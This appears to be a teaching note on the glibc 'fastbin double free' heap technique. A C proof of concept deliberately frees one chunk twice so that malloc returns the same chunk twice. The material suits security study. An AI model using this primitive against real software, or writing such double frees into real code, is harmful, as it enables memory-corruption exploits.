 ## fastbin double

**Purpose:** Double free in fastbin. Since fastbin just only have fastbin head chunk check, we can trick malloc to return the same chunk multiple times.

**Require:** Have an ability to free the same chunk twice (double free)

## POC

```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main() {
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);

    long *tcache_chunks[7];
    long *fastbin_chunk0, *fastbin_chunk1, *fastbin_chunk2, *reallocated_chunk0, *reallocated_chunk1, *reallocated_chunk2;

    // Fill tcache for size 0x70
    for (int i = 0; i < 7; i++) {
        tcache_chunks[i] = malloc(0x70);
    }

    fastbin_chunk0 = malloc(0x70);
    fastbin_chunk1 = malloc(0x70);
    fastbin_chunk2 = malloc(0x70);

    malloc(0x70); // Prevent consolidation with top chunk

    for (int i = 0; i < 7; i++) {
        free(tcache_chunks[i]);
    }

    free(fastbin_chunk0);
    free(fastbin_chunk1);
    /* VULN HERE */
    free(fastbin_chunk0); // Double free vulnerability
    /* VULN HERE */

    for (int i = 0; i < 7; i++) {
        tcache_chunks[i] = malloc(0x70); // Empty tcache
    }

    reallocated_chunk0 = malloc(0x70);
    reallocated_chunk1 = malloc(0x70);
    reallocated_chunk2 = malloc(0x70);

    assert(reallocated_chunk0 == reallocated_chunk2); // Should be equal due to double free
    return 0;
}
```
